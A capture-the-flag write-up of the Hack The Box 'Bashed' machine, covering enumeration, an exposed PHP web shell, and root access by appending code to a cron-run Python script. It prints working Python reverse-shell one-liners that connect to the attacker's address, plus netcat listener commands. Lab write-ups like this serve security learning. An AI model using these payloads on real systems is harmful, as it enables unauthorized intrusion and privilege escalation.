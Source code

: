 ```yaml
---
title: Hack The Box - Bashed (Without Metasploit)
date: 2021-01-09 19:28:00 +0800
categories: [hackthebox]
tags: [linux, python]
image:
    path: /assets/images/bashed.png
---
```


# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.68 bashed.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn bashed.htb
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 15:27 EST
Nmap scan report for bashed.htb (10.10.10.68)
Host is up (0.0060s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.94 seconds
```

# Enumeration (1)

## Port 80 `Apache httpd 2.4.18 ((Ubuntu))`

![](/assets/images/bashed1.png)

This looks like someone's blog. In the post, it talked about a web shell called `php-bash` and judging from the screenshot, it is located at `/uploads/phpbash.php but unfortunately it wasn't there. Lets bruteforce some directorys.

```bash
$ gobuster dir -k -u http://bashed.htb/ -w /usr/share/wordlists/dirb/common.txt -t 20 -x .html,.php,.cgi,.sh,.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://bashed.htb/
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,cgi,sh,txt
[+] Timeout:        10s
===============================================================
2021/01/09 05:32:01 Starting gobuster
===============================================================
...
/about.html (Status: 200)
/config.php (Status: 200)
/contact.html (Status: 200)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/single.html (Status: 200)
/uploads (Status: 301)
===============================================================
2021/01/09 05:32:11 Finished
===============================================================
```

The `/dev` folder seems interesting.

![](/assets/images/bashed2.png)

If we click on the `phpbash.php` link, we are brought to the webshell!

![](/assets/images/bashed3.png)

# user.txt

Despite being the `www-data` user, we can access the user flag in the home directory of `arrexel`.

![](/assets/images/bashed4.png)

# Enumeration (2)

As `www-data`, we could run any commmands as `scriptmanager` using `sudo` but `scriptmanager` did not belong to any administrative group so perhaps it will come in useful later on.

![](/assets/images/bashed5.png)

Before performing further enumeration, lets upgrade to a better shell using `python`.

```bash
www-data@bashed:/var/www/html/dev# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.10.14.12",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
$ sudo rlwrap nc -vlnp 9999
[sudo] password for kali: 
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.68] 38960
www-data@bashed:/$
```

In the root directory, there was a folder called `/scripts`, and inside were 2 files.

```bash
www-data@bashed:/$ ls -al /scripts
ls: cannot access '/scripts/..': Permission denied
ls: cannot access '/scripts/test.py': Permission denied
ls: cannot access '/scripts/test.txt': Permission denied
ls: cannot access '/scripts/.': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
-????????? ? ? ? ?            ? test.py
-????????? ? ? ? ?            ? test.txt
```

We are unable to access it. However, the folder belonged to `scriptmanager` so lets spawn a shell as `scriptmanager` and view the contents of the folder.

```bash
www-data@bashed:/$ ls -al /scripts
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan  9 03:10 test.txt
www-data@bashed:/$ cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
www-data@bashed:/$ cat /scripts/test.txt
testing 123!
```

The `test.txt` is owned by `root`, modified recently and had contents matching the output of `test.py` if ran. This shows that `root` might be scheduled to run `test.py` regularly and if we can inject a reverse shell code into it, we might be able to establish as `root`!

# Exploitation 

```bash
www-data@bashed:/$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.10.X.X",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /scripts/test.py
```

After a while, we get a connection on our `nc` listener that we setup beforehand.

```bash
$ sudo rlwrap nc -vlnp 1337
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.68] 50256
root@bashed:/scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@bashed:/scripts# cat /root/root.txt
cc4fXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


### Rooted ! Thank you for reading and look forward for more writeups and articles !